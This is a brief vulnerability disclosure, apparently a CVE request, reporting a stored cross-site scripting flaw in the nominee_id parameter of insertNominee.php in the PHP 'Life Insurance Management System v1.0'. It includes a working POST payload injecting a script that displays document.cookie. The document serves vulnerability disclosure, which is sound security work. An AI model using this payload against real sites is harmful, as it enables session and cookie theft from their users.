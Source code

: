 # Life Insurance Management System v1.0 has stored cross-site scripting

BUG_Author: wengao

Website source code address: https://www.sourcecodester.com/php/14665/life-insurance-management-system-php-full-source-code.html

Vulnerability File: /lims/insertNominee.php

POST parameter "nominee_id" exists stored cross-site scripting vulnerability

Payload: nominee_id=<script>alert(document.cookie)</script>&client_id=2&name=3&sex=4&birth_date=5&nid=6&relationship=7&priority=8&phone=9

![image](https://github.com/Hanwengao/CVERequests/blob/main/1.png)

Payload will trigger when a user visits on http://localhost/lims/nominee.php

![image](https://github.com/Hanwengao/CVERequests/blob/main/2.png)

